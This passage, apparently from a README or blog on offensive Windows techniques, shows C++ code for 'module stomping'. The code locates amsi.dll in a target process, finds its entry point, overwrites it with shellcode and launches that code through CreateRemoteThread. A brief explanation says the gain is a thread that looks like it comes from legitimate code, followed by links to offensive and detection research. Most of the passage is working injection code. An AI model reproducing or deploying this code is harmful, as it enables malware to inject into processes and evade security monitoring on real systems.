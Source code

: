 ```cpp
	{
		remoteModule = modules[i];
		GetModuleBaseNameA(processHandle, remoteModule, remoteModuleName, sizeof(remoteModuleName));
		if (std::string(remoteModuleName).compare("amsi.dll") == 0) 
		{
			std::cout << remoteModuleName << " at " << modules[i];
			break;
		}
	}

	// get DLL's AddressOfEntryPoint
	DWORD headerBufferSize = 0x1000;
	LPVOID targetProcessHeaderBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
	ReadProcessMemory(processHandle, remoteModule, targetProcessHeaderBuffer, headerBufferSize, NULL);

	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)targetProcessHeaderBuffer;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)targetProcessHeaderBuffer + dosHeader->e_lfanew);
	LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)remoteModule);
	std::cout << ", entryPoint at " << dllEntryPoint;

	// write shellcode to DLL's AddressofEntryPoint
	WriteProcessMemory(processHandle, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);
	
	// execute shellcode from inside the benign DLL
	CreateRemoteThread(processHandle, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);
	
	return 0;
}
```



The main advantage of this technique is to start the thread from within a module, so that it appears to originate
from legitimate executable code. A visual example below:

![Module Stomping](./assets/module-stomping-thread.gif)


[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/